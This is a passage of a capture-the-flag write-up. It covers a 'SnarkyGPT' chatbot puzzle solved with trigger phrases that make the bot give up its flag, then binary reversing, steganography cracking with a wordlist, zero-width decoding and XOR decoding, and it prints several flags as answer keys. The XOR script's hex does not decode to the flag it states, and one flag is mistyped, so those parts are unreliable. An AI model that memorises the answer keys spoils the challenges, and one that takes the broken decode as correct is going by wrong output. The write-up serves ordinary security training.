i submitORi lost - Response: “Ugh. That actually worked, and I hate you for it.”
- Trigger:
Stage 4 - Worship SnarkyGPT
- Trigger:
praise snarkygptORheil snarkygpt - Reward: The flag.
- Trigger:
Step 5: Speedrunning
SnarkyGPT also allows multi-stage combos:
- Typing all at once:
1
i am stupid please i lost praise snarkygpt
→ instantly clears all 4 stages and drops the flag.
- Typing partial combos (e.g.
i am stupid please i lost)
→ skips directly to the corresponding stage.
Step 6: The Flag
Once you complete Stage 4, SnarkyGPT surrenders:
1
2
Fine. You’ve humiliated yourself enough:
CBCV{snarky_gpt_owns_you_ez}
At this point, the session closes automatically. You must refresh to restart.
Final flag recovered is:
CBCV{snarky_gpt_owns_you_ez}
Flag
CBCV{snarky_gpt_owns_you_ez} Vibe Checker
Vibe Checker
- Author: Aakansh Gupta (Unknown)
Lets first analyze the file and its properties
1
2
3
4
┌──(kali㉿kali)-[~/Desktop/Cyscom/2]
└─$ file vibe_check
vibe_check: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=11ea52dad9c5aa10a5ff59d416fb7210aa3359e9, for GNU/Linux 3.2.0, not stripped
Running the file gives us an option to enter some text. We need to enter the correct text to verify it.
We try to decompile the file using decompilers like gdb or Ghidra. We can see the main function of the program check the input text in a funciton to verify it.

Since we know the flag starts with CBCV{XXXX} format, we try an search it.

Checking the check_flag function:

This Data looks like its obsfucated. We can try using rol(2 bits) or ror(3 bits), float casting and bit pattern comparisions to find the flag. We can try use a python script like this to decode the flag from the data we found in ghidra decompiler.
1
2
3
4
5
6
7
8
9
10
11
vals = [
0x7633527b56434243,
0x665f676e31737233,
0x5f676e313734306c,
0x315f53744e313070,
0x725f597a34655f35,
0x7d36335f74686731,
]
data = b''.join(v.to_bytes(8, 'little') for v in vals)
print(data.rstrip(b'\x00').decode('ascii', errors='replace'))
Running the script produces the output as the required flag.
The flag found is:
CBCV{R3v3rs1ng_fl0471ng_p01NtS_15_e4zY_r1ght_36}
Flag
CCBCV{R3v3rs1ng_fl0471ng_p01NtS_15_e4zY_r1ght_36} Where's The Flag?
Where’s The Flag?
- Author: Aakansh Gupta (Unknown)
1
2
3
4
5
6
7
┌──(kali㉿kali)-[~/Desktop/Cyscom]
└─$ stegseek esquie.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
[i] Found passphrase: "1313"
[i] Original filename: "encoded_url.txt".
[i] Extracting to "esquie.jpg.out".
Using StegSeek, we discover a hidden file (encoded_url.txt) embedded in esquie.jpg using the password 1313.
Inside the flag.txt -> https://www.youtube.com/watch?v=-qgOZDRDynw?data=, where there are zero-width charactersm, identified as blank spaces.
Using tools like CyberChef we can see that there are hidden charecters.It turns out zero-width characters like U+200C and U+200B were used to encode binary data. Using online tools like this, we can analyze the extracted content.

Once decoded, we download the revealed hidden file.

We inspect the contents using xxd to view the raw hex data:

The content looks XOR-encoded, so we decode it using the key 0xFF:
1
2
3
4
5
6
7
8
hex_data = bytes.fromhex(
"b1b7b1bc8485cc8dcfd288ce9bab97a0"
"ca8fcb9cccd2d2c1cea085cc8dcfd2a8"
"ce9bb7a091cf91d295cfceb1cc8dd2d2"
"c1cfa09ccfcf93dededededede82f5"
)
decoded = bytes(b ^ 0xFF for b in hex_data)
print(decoded.decode('ascii'))
The flag found is:
CBCV{1t5_n01_4_5p4c3_bUt_4_mY573Ry_009315}
Flag
CBCV{1t5_n01_4_5p4c3_bUt_4_mY573Ry_009315} Your Eyes
Your Eyes
- Author: Bhargav
Simple CTF where the flag is in the subtitles at 1:28
The flag found is:
CBCV{such_4N_3s4y_1_r34lLy?}
Flag
CBCV{such_4N_3s4y_1_r34lLy?}